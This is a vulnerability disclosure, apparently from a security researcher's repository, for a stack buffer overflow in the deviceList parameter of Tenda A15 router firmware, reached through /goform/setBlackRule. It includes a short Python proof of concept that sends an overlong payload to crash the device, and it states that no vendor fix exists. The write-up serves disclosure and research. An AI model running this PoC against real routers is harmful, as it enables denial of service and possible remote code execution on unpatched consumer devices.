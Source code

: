 # Tenda A15 V15.13.07.13 was discovered to contain a stack overflow vulnerability in the "deviceList" parameter at /goform/setBlackRule.

## Vulnerability Description

Vendor: Tenda

Product: A15

Version: US_A15V1.0RTL_V15.13.07.13_multi_TD01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3187.html

## Vulnerability Details

In formAddMacfilterRule function, get deviceList via websGetVar and pass first argument to parse_macfilter_rule

![1703731028904](image/setBlackRule.zh-cn/1703731028904.png)

The parse_macfilter_rule function, however, is not passed to the dest_rule->name variable via strcpy without any length checksum, which could lead to an attacker using this buffer overflow to perform a DOS attack and an RCE attack.

![1703731130516](image/setBlackRule.zh-cn/1703731130516.png)

## POC

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/setBlackRule'

payload = {
    'deviceList': 'a' * 0x400 + '\r' + 'ff:ff:ff:ff:ff:ff'
}

r = requests.post(url=url, data=payload)

print(r.content)
```

## Trigger details

See video content
<video src="https://github.com/yaoyue123/iot/blob/main/Tenda/A15/setBlackRule.mp4" width="640" height="480" controls></video>


## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/us/product/a15.html
